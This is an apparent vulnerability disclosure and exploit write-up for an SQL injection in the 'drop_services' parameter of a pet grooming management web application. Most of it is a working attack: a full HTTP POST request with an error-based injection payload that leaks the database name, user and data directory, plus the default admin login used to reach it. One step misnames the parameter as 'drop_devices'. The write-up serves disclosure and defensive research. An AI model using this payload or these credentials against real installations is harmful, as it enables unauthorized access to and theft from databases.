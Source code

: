 

# Pet grooming management software - ajax_product.php '**drop_services**' SQL inject

#### Exploit Title: Pet grooming management software - ajax_product.php '**drop_services**' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Pet grooming management software does not filter the content correctly at the "ajax_product.php/drop_services" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
POST /admin/ajax_product.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/
Origin: http://192.168.67.28:8021
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: PHPSESSID=e68auo56o4aja1o1vp829pfesl
Cache-Control: max-age=0
Content-Length: 45

drop_services=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、By examining the admin/ajax_product.php code, it was discovered that the drop_devices parameter was concatenated in the SQL statement

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/codeajaxpro.png)

3、We can construct SQL statements to query the name of the database and the name of  user

payload:`drop_services=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/sql-ajaxproduct.png)
